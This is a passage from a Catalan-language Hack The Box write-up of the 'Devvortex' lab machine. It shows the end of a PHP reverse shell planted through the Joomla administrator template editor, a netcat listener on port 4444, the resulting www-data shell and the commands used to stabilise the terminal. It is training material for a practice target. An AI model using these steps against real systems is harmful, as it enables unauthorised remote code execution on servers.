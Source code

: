 ```
function printit ($string) {
 if (!$daemon) {
 print "$string\n";
 }
}
?>`
```

Hem hagut de modificar el port nostre i posar la IP nostre també.

Ara guardem el fitxer, posem la Kali a escoltar al port i entrarem després a la url. Ara un cop hem desat:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/e8f4679f-434e-459f-80d5-701d02c3ab94)



Anem a escoltar amb la Kali:

```
┌──(polkali㉿polkali)-[~]
└─$ nc -nvlp 4444`
```

I haurem d’executar aquesta URL: Editing file
"http://dev.devvortex.htb/administrator/templates/atum/patataPol.php" in template "atum".

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/ce60303d-d39d-4fc4-82f7-34463dd97082)


Ara amb whoami o id veiem ja que som l’usuari www-data:

```
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$`
```

Ara sanejem la consola:

```
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@devvortex:/$ ^Z
zsh: suspended nc -nvlp 4444`
```

```
┌──(polkali㉿polkali)-[~]
└─$ stty raw -echo; fg
[3] continued nc -nvlp 4444
 export TERM=xterm
www-data@devvortex:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:/$`
```

